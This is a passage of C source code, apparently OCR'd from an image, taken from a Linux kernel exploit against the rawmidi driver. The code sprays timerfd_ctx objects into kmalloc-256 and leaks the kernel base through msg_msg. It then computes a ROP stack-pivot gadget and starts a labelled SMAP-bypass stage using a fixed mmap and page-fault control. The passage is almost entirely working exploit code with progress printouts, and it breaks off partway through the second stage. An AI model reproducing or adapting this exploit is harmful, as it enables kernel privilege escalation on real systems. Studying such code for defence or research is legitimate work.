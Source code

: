```c
        timerfd_settime(tfd[i], 0, &its, 0);
    }

    puts("[+] Allocate timerfd_ctx in kmalloc-256");

    while(release_page_fault == true);
    printf("[+] Page fault lock released\n");

    uint64_t *leak = recv_msg(qid[0], 0x2000);

    // hexdump(leak, 0x2000);

    timerfd_tmrproc =  *(leak + (0x200 / sizeof(uint64_t)));
    kernel_base = timerfd_tmrproc - 0x2201f0;
    pivot = kernel_base + 0x8fc625; // push r8 ; add byte ptr [rbp + 0x41], bl ; pop rsp ; pop r13 ; ret

    printf("[+] timerfd_tmrproc addr : 0x%lx\n", timerfd_tmrproc);
    printf("[+] kernel_base addr : 0x%lx\n", kernel_base);
    printf("[+] pivot addr : 0x%lx\n", pivot);

    for(int i = 0; i < 256; i++)
    {
        close(tfd[i]);
    }

    close(fd1);
    puts("[+] Close rawmidi");

    /* ===================== [ SETP 2 - SMAP Bypass ] ===================== */

    puts("\n[+] STEP 2 : SMAP bypass");
    
    release_page_fault = false;

    fd2 = open(DRIVER_RAWMIDI, O_RDWR);

    if (fd2 < 0)
    {
        perror("[-] open");
        exit(0);
    }

    puts("[+] Opening rawmidi");

    if ((qid[1] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
    {
        perror("msgget");
        exit(1);
    }

    if ((page = mmap((void *)0x3330000, PAGE_SIZE * 2, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_ANONYMOUS|MAP_PRIVATE, -1, 0)) == MAP_FAILED)
    {
        perror("[-] mmap()");
        exit(0);
    }

    puts("[+] Mapping two pages");

    addr = page;
    memset(addr, 'B', PAGE_SIZE);

```